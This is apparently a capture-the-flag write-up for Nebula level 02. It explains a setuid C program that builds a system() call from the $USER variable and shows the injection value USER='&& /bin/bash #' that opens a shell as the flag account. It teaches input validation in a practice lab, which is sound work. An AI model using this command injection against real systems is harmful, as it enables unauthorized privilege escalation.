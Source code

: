 ```yaml
---
layout: post
title: "Nebula Series - Level 02"
---
```


Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
system race conditions.

Level 02 is a quick one thanks to an application that trusts us blindly.

<!--more-->

Ok, so the first thing to understand is that you shouldn't trust the user. If the application
executes a command that is built either entirely or partially from user input, it's vulnerable to
command injection.

Inspecting the executable in the flag account's home directory `/home/flag02` we again see that it
is `setuid` and is owned by `flag02`.

To make our lives easier, we are also provided with the source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);

  system(buffer);
}
```

Again, the application sets our **REAL** uid & gid to our **EFFECTIVE** uid & gid which means
as far as the running process is concerned, we are user `flag02`; now we just need to get it to do
our bidding.


The application builds up the command using the value in the `$USER` environment variable, stores it in the
buffer, and eventually executes it.

```c
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
...
system(buffer)
```

Our goal is to craft a value for the `$USER` variable such that we are provided with a shell when the command is run.


We can short circuit the call to `/bin/echo` with `&&`, invoke `/bin/bash`, and comment out the rest
of the command with `#`:

```bash
$ USER='&& /bin/bash #' /home/flag02/flag02
```

The resulting command is

```bash
/bin/echo && /bin/bash # is cool
```

The `#` at the end is crucial because without it `bash` would try to execute a non-existent file called `is` and fail.
Instead, we are presented with a shell as `flag02` which we can verify with `whoami` if we're in doubt.

To complete the level we use our escalated privileges to run getflag

```bash
$ getflag

"You have successfully executed getflag on a target account"
```

In summary:

- assume all input is malicious
- if possible, avoid dynamically composing commands with user provided data
